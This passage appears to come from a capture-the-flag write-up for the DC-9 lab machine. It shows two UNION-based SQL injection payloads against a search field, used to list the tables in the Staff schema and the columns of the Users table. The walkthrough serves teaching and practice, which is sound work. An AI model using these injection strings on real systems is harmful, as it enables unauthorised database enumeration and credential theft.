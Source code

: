 We can see the **Staff** database that belongs to the web aplication and another one called **users**, at this moment we will try to list the names of the tables of the **Staff** schema.

``` bash
Mary' and 1=2 union select table_name,null,null,null,null,null from information_schema.tables where table_schema=database() #
```

![](/assets/images/DC-9/screenshot-6.png)

In the output we see that there are two tables, let's list the columns of the **Users** table which is the one that most catches our attention.

``` bash
Mary' and 1=2 union select column_name,null,null,null,null,null from information_schema.columns where table_schema=database() and table_name='Users' #
```

![](/assets/images/DC-9/screenshot-7.png)
